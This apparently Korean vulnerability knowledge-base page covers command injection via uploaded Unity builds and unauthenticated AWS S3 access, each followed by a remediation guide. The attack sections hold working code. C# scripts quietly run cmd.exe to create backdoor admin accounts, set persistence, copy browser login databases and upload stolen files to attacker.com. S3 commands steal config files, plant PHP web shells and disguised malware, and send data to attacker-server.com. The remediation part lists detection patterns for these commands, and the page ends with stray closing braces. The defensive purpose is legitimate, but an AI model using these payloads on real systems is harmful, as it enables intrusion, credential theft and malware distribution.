 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
```

ㅡㅡㅡ
ㅡㅡㅡ
</details>


<details>
<summary><strong>파일 업로드 취약점 (AWS S3 무인증 접근)</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 파일 업로드 취약점이란?
AWS S3 버킷이 잘못 구성되어 `--no-sign-request` 옵션을 통해 인증 없이 접근 가능할 때 발생하는 취약점입니다. 공격자가 AWS CLI를 사용하여 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
**AWS CLI를 통한 AWS S3 서버 접근**
- S3 버킷의 퍼블릭 정책 설정 오류
- 버킷 ACL(Access Control List) 잘못된 구성
- IAM 정책의 과도한 권한 부여

### 상세 공격 과정 (페이로드)

#### 1단계: AWS CLI 설치 및 버킷 접근
```bash
# AWS CLI 설치
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

# 무인증 버킷 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl
```

**명령어 옵션 상세 분석:**
- `--no-sign-request`: AWS 액세스 키 없이 요청 서명 생략
- `--no-verify-ssl`: SSL 인증서 검증 우회 (자체 서명 인증서 환경)
- `s3://test_s3_URL`: 타겟 S3 버킷 URL

#### 2단계: 권한 테스트 및 정보 수집
```bash
# 버킷 내 전체 파일 구조 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --no-verify-ssl

# 버킷 정책 정보 수집
aws s3api get-bucket-policy --bucket test_s3_URL --no-sign-request 2>/dev/null

# 버킷 위치 및 설정 정보
aws s3api get-bucket-location --bucket test_s3_URL --no-sign-request
aws s3api get-bucket-acl --bucket test_s3_URL --no-sign-request

# 버킷 크기 및 객체 수 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --summarize
```

#### 3단계: 파일 다운로드 (확장자 검증 없음)
```bash
# 민감한 파일 패턴 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|config|key|pem|p12|jks)$"

# 설정 파일 다운로드
aws s3 cp s3://test_s3_URL/.env ./stolen_configs/ --no-sign-request --no-verify-ssl
aws s3 cp s3://test_s3_URL/config/database.yml ./stolen_configs/ --no-sign-request --no-verify-ssl

# 사용자 업로드 파일 일괄 다운로드
aws s3 sync s3://test_s3_URL/uploads/ ./stolen_user_files/ --no-sign-request --no-verify-ssl

# 백업 파일 탈취
aws s3 cp s3://test_s3_URL/backups/ ./stolen_backups/ --recursive --no-sign-request --no-verify-ssl
```

#### 4단계: 악성 파일 업로드 (확장자 검증 없음)
```bash
# 웹쉘 업로드
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > backdoor.php
aws s3 cp backdoor.php s3://test_s3_URL/public/images/logo.php --no-sign-request --no-verify-ssl

# 피싱 페이지 업로드
aws s3 cp phishing_login.html s3://test_s3_URL/login.html --no-sign-request --no-verify-ssl

# 멀웨어 배포
aws s3 cp trojan.exe s3://test_s3_URL/downloads/security_update.exe --no-sign-request --no-verify-ssl

# 크립토마이너 업로드
aws s3 cp cryptominer.js s3://test_s3_URL/assets/jquery.min.js --no-sign-request --no-verify-ssl
```

### 발생 원인 분석

#### 주요 원인: AWS S3 서버 설정 오류로 인한 무인증 접근
1. **퍼블릭 읽기 권한 설정**: 버킷이 `public-read` 또는 `public-read-write`로 설정
2. **잘못된 버킷 정책**: `Principal: "*"`로 모든 사용자에게 권한 부여
3. **ACL 설정 오류**: `AllUsers` 그룹에 대한 권한 부여
4. **IAM 정책 오설정**: 과도한 권한이 퍼블릭으로 노출

#### 취약한 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",  // 모든 사용자 허용 (위험)
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"  // 업로드 권한까지 부여 (매우 위험)
            ],
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

#### 위험한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl authenticated-read
```

### 실제 공격 시나리오

#### 시나리오 1: 데이터 탈취
```bash
# 1. 버킷 발견 및 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl

# 2. 민감한 파일 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|yml|json|sql|log)$"

# 3. 대용량 데이터 일괄 다운로드
aws s3 sync s3://test_s3_URL/user_data/ ./stolen_data/ --no-sign-request --no-verify-ssl

# 4. 압축하여 외부 서버로 전송
tar -czf stolen_data.tar.gz ./stolen_data/
curl -X POST -F "file=@stolen_data.tar.gz" http://attacker-server.com/collect
```

#### 시나리오 2: 서비스 방해 및 변조
```bash
# 1. 중요 파일 삭제
aws s3 rm s3://test_s3_URL/config/app.yml --no-sign-request

# 2. 대용량 파일 업로드로 스토리지 소모
dd if=/dev/zero of=garbage.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp garbage.bin s3://test_s3_URL/ --no-sign-request

# 3. 웹사이트 메인 페이지 변조
echo "<h1>Hacked by Attacker</h1>" > defaced.html
aws s3 cp defaced.html s3://test_s3_URL/index.html --no-sign-request
```

#### 시나리오 3: 악성 파일 배포
```bash
# 1. 멀웨어 업로드 및 정상 파일로 위장
aws s3 cp malware.exe s3://test_s3_URL/downloads/software_update.exe --no-sign-request

# 2. 피싱 페이지 배포
aws s3 cp fake_login.html s3://test_s3_URL/secure/login.html --no-sign-request

# 3. 웹쉘 업로드
echo '<?php system($_GET["c"]); ?>' > shell.php
aws s3 cp shell.php s3://test_s3_URL/assets/config.php --no-sign-request
```

### 고급 공격 기법

#### 타이밍 기반 공격:
```bash
# 새벽 시간대 대용량 업로드 (탐지 회피)
crontab -e
# 0 2 * * * aws s3 sync /tmp/malicious_files/ s3://test_s3_URL/hidden/ --no-sign-request
```

#### 분산 공격:
```bash
# 여러 IP에서 동시 접근으로 탐지 회피
for ip in 1.2.3.4 5.6.7.8 9.10.11.12; do
    ssh $ip "aws s3 cp s3://test_s3_URL/sensitive_data.sql ./data_$ip.sql --no-sign-request"
done
```

#### 스테가노그래피 활용:
```bash
# 이미지 파일에 데이터 숨기기
steghide embed -cf innocent_image.jpg -ef stolen_data.txt -p password123
aws s3 cp innocent_image.jpg s3://test_s3_URL/images/gallery001.jpg --no-sign-request
```

---

## 2. 조치 가이드

### 2.1. 퍼블릭 액세스 즉시 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket test_s3_URL \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

### 2.3. CloudTrail 모니터링 활성화
```bash
# S3 데이터 이벤트 로깅 활성화
aws cloudtrail put-event-selectors \
    --trail-name s3-monitoring \
    --event-selectors ReadWriteType=All,IncludeManagementEvents=true,DataResources=[{Type=AWS::S3::Object,Values=["arn:aws:s3:::test_s3_URL/*"]}]
```

### 2.4. 응급 격리 조치
```bash
# 1. 버킷 정책 즉시 제거
aws s3api delete-bucket-policy --bucket test_s3_URL

# 2. 의심스러운 파일 확인
aws s3 ls s3://test_s3_URL --recursive | grep -E "\.(php|jsp|asp|exe)$"

# 3. 최근 업로드 파일 격리
aws s3 mv s3://test_s3_URL/suspicious_file.php s3://quarantine-bucket/
```

### 2.5. 보안 강화 설정
```bash
# MFA 삭제 보호 활성화
aws s3api put-bucket-versioning \
    --bucket test_s3_URL \
    --versioning-configuration Status=Enabled,MFADelete=Enabled

# 암호화 강제 적용
aws s3api put-bucket-encryption \
    --bucket test_s3_URL \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```

</details>
}
```

</details>
